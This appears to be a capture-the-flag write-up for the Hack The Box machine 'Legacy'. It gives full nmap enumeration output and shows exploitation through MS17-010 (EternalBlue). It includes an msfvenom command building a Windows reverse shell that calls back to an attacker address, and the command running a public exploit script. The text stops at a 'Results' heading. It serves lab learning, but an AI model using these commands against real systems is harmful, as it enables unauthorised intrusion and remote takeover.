# Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Thu Jul  7 18:51:17 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/7%OT=135%CT=1%CU=40757%PV=Y%DS=2%DC=T%G=Y%TM=62C763A
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=
OS:0)OPS(O1=M539NW0NNT00NNS%O2=M539NW0NNT00NNS%O3=M539NW0NNT00%O4=M539NW0NN
OS:T00NNS%O5=M539NW0NNT00NNS%O6=M539NNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4
OS:=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M539NW0NNS%CC=N%Q=)T1(R
OS:=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=80%W=0%S=Z%A=S%F=AR%O=%
OS:RD=0%Q=)T3(R=Y%DF=Y%T=80%W=FAF0%S=O%A=S+%F=AS%O=M539NW0NNT00NNS%RD=0%Q=)
OS:T4(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=80%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=B0%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:60:72 (VMware)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-07-13T03:49:51+03:00

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   73.78 ms 10.10.14.1
2   73.83 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  7 18:52:21 2022 -- 1 IP address (1 host up) scanned in 64.24 seconds
```
**Smb vulnerabilities scan:** [nmap -sS -p139,445 10.10.10.4 -v --script vuln]:

![smb_scan](images/smb_vuln_scan.png)

**Initial Shell Vulnerability Exploited: EternalBlue**\
With the results of the nmap vulnerabilities scan, it seems like the machine is vulnerable to [MS017-10](https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py) (EternalBlue Exploit).

I first used msfvenom to generate a payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443
EXITFUNC=thread -f exe -a x86 --platform windows -o reverseshell.exe
```
And then ran the exploit:
```bash
python send_and_execute.py 10.10.10.4 revshell.exe
```

Results